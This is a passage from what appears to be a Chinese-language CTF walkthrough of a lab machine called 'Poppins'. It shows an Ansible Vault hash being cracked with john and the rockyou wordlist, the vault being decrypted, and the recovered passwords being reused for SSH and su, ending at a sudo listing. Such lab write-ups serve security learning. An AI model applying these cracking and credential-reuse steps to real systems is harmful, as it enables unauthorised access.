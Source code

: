 ```
```

# 六、Ansible Vault破解

## 提取并破解Vault密码

将Vault内容保存到文件并使用john破解：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ansible2john secrets.yml > hash                                                
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash                             
...
javiel           (secrets.yml)   
```

使用破解的密码解密Vault：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ansible-vault view secrets.yml                                                 
Vault password: javiel
cumibug
```

获得两个关键信息：

- Vault密码：`javiel`
- 解密后的密码：`cumibug`

# 七、权限提升

## 获得Jane用户权限

尝试使用解密的Vault密码作为Jane的密码：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh jane@192.168.205.143
jane@192.168.205.143's password: javiel
...
jane@Poppins:~$ id
uid=1001(jane) gid=1001(jane) groups=1001(jane)
```

## 切换到Michael用户

使用Vault中的密码切换到michael用户：

```bash
jane@Poppins:/home$ su michael
Password: cumibug
michael@Poppins:/home$ sudo -l
...
User michael may run the following commands on Poppins:
    (winifred) PASSWD: /usr/bin/mail *
```


[WARNING]: No inventory was parsed, only implicit localhost is available